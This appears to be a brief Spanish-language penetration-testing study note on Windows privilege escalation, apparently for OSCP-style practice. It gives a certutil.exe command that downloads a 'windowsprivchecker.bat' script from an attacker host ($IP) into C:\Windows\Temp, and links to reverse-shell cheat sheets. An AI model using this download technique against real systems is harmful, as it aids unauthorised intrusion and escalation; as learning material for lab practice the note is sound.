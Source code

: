 ## Windowsprivchecker.bat

Utilizado para Windows sin Powershell
Pasar a la maquina 
```
certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura 
```

Reverse shells 
https://www.puckiestyle.nl/
https://sushant747.gitbooks.io/total-oscp-guide/content/reverse-shell.html
